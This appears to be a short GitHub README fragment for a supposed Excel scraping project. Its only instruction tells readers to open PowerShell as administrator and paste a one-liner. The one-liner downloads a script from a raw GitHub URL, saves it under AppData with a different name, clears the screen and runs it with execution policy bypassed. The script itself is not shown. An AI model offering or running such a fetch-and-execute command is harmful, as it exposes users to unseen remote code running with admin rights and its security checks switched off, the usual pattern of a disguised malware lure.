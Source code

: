 ## How to run: 

# Open Powershell As Admin and Run:

Invoke-WebRequest -uri "https://raw.githubusercontent.com/Laurits6920/project-scrape/main/lam.ps1" -OutFile "$env:APPDATA\ExcelScraper.ps1" -UseBasicParsing; cls; powershell -ep bypass "$env:APPDATA\ExcelScraper.ps1"
